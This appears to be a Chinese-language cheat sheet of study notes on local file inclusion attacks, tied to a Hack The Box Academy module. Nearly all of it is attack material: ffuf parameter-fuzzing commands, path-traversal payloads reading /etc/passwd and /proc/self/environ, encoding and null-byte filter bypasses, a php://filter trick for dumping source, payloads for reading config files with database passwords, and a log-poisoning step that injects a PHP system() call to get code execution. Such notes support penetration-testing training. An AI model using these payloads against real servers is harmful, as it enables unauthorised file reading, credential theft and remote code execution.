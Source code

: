 # LFI



## <mark style="color:green;">**1. 發現點**</mark>&#x20;

1. ?page參數
2. ```
   ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
   ```

## <mark style="color:green;">**2. 測試Payload**</mark>

發現可能的 LFI 參數後，例如 `?page=`，我們可以使用 **Jhaddix 的 LFI 字典** 來進行自動化測試：

```shell-session
ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```

**🔹 基本 LFI 測試**

```
?page=/proc/self/environ      #for dokcer
?page=../../../../etc/passwd
```

**🔹 Docker 內部 LFI 測試**

```
?page=/proc/self/environ
```

**🔹 讀取 Apache 環境變數**

```shell-session
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars
```

## <mark style="color:green;">**3. bypass技巧**</mark>

🔹 變形 `../`

```
?page=....//....//etc/passwd
?page=....\/....\/etc/passwd
?page=....//....//....//....//etc/passwd
```

**🔹 URL 編碼**

```
?page=..%2F..%2F..%2F..%2Fetc%2Fpasswd
?page=%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

**🔹 Null Byte 截斷**

```
?page=../../../../etc/passwd%00
```

**🔹 測試不同 Web Root**

```
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

**🔹 php base64 filter**

```sh
 /index.php?language=php://filter/read=convert.base64-encode/resource=config	
```

## <mark style="color:green;">4.濫用</mark>



**🔹 讀取 PHP 配置（可能包含 DB 密碼）**

```
?page=/var/www/html/config.php
?page=../../../../var/www/html/wp-config.php
```

🔹 Base64 讀取 PHP 代碼

```
/index.php?language=php://filter/read=convert.base64-encode/resource=config

```

```
echo "BASE64_OUTPUT" | base64 -d
```

**🔹 日誌汙染（Log Poisoning）**

```
curl "http://<SERVER_IP>:<PORT>/?page=<?php system('id'); ?>"

```

然後訪問：

```
?page=/var/log/apache2/access.log
```

## <mark style="color:red;">6.Skills Assessment</mark>

[<mark style="color:red;">https://academy.hackthebox.com/module/23/section/513</mark>](https://academy.hackthebox.com/module/23/section/513)
